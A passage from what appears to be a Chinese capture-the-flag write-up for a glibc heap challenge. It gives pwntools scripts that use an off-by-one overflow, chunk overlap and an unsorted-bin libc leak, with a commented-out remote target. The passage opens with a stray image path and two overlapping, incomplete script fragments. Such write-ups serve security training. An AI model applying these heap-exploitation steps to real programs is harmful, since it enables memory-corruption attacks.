 ```python
malloc(0x58,"B"*(0x50)+p64(0x280+0x70))			#3	
#####overlap
free(4)							#	-->overlap


#####leak libc
malloc(0x170,"X"*0x100+p64(0)+p64(0x71))	        # for leak	
show()							#leak fd
p.recvuntil('2 : ')
print "[*]leak fd="+hex(u64(p.recv(6).ljust(8,'\x00')))

p.interactive()
```



***本地EXP***

可能所有one_gadget都无法使用，解决方案见https://bbs.pediy.com/thread-246786.htm

远程的话，libc版本没有完全匹配（虽然都是2.23）但是malloc_hook周围的数据都不同，这些需要调试才能知道。所以打不了咯。

```python
#!/usr/bin/python
from pwn import *

p=process(['./timu'],env={"LD_PRELOAD":"/home/p0kerface/Documents/babyheap/"})
#p=remote("111.198.29.45","47094")
context.log_level='Debug'
gdb.attach(p,"b *0x7ffff7afd2a4")


def malloc(size,data):
	p.recvuntil("Your choice :")
	p.sendline(str(1))
	p.recvuntil("Size:")
	p.sendline(str(size))
	#p.recvuntil("Data:")
	p.sendline(data)

def free(index):
	p.recvuntil("Your choice :")
	p.sendline(str(2))
	p.recvuntil('Index')
	p.sendline(str(index))

def show():
	p.recvuntil("Your choice :")
	p.sendline(str(3))

malloc(0x100,"A"*0x20)					#0
malloc(0x65,"b"*0x20)					#1
malloc(0x25,"b"*0x20)					#2
malloc(0x100,"a"*0x20)					#3	-->leak_libc
malloc(0x58,"B"*(0x50)+p64(0x250))			#4	-->off by one
malloc(0x200-0x10,'C'*0x20)				#5	-->fake preinuse & presize=250
malloc(0x28,"D"*0x20)					#6
free(4)
#free(2)							#2	-->for leak unsort bins	
free(0)
#####off by one
malloc(0x58,"B"*(0x50)+p64(0x280+0x70+0x30))			#3	
#####overlap
free(5)							#	-->overlap

#####leak libc
```